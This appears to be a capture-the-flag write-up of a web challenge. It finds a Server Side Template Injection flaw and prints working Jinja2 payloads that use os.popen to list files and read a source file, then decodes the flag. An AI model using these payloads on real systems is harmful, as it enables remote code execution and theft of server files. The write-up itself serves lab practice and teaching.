





Web problem based on Server Side Template Injection. Initially it didn't look like much was going on but after discovering the SSTI the door leading to the flag swung wide open.

Here is what the initial web page looks like:



If we enter anything at all for the username and password and then hit the 'Submit' button we get a message saying that the page does not exist:



If we replace `login` with an SSTI payload such as `{{7*7}}` we discover that SSTI is in play:



We can pick from a boatload of SSTI payloads available from [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). After testing a handful I struck gold with `{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}`:



I poked around a little bit and came across the following (`{{config.__class__.__init__.__globals__['os'].popen('cat ./lib/security.py').read()}}`):



Now, if we add a double equals to the front, reverse it, and the base64 the string we uncover the flag:

```console
root@osboxes:~/Downloads# echo '==QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ' | rev | base64 -d
dctf{4ll_us3r_1nput_1s_3v1l}
```

The flag is **dctf{4ll_us3r_1nput_1s_3v1l}**.
